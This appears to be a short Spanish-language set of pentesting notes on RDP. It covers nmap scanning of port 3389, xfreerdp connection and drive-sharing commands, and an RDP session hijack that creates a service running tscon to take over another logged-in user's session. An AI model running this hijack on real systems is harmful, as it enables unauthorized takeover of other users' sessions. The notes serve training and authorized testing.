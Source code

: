 # Ifo
Usualmente está alojado en el puerto 3389

#### Recon con nmap
nmap -Pn -p3389 192.168.2.143 


# Conectarse:
### Desde windows:

    mstsc.exe

### Desde linux

##### REMOTE DESK CONECTION

    xfreerdp /u:(username) /p:(password) /v:(Machine IP) /dynamic-resolution

##### Para compartir una carpeta
    xfreerdp /u:(username) /p:(password) /v:(Machine IP) /dynamic-resolution +clipboard /drive:SHARE,/path/shared 

##### Si queremos mejorar la conexión optimizando 

    xfreerdp /u:(username) /p:(password) /v:(Machine IP) /dynamic-resolution +clipboard /drive:SHARE,/path/shared /bpp:8 /compression -themes -wallpaper /clipboard /audio-mode:0 /auto-reconnect -glyph-cache


---

# Impersonar un usuario conectado por rdp:
Necesitamos tener privilegios de administrador.

primero vemos si hay otro usuario conectado:

    query user

creamos un servicio:

    sc.exe create sessionhijack binpath= "cmd.exe /k tscon <user_id_a_impersonar> /dest:<nuestra_sesion>"

luego iniciamos el servicio y se va a abrir un cmd con la sesión del usuario:

    net start sessionhijack



0E14B9D6330BF16C30B1924111104824
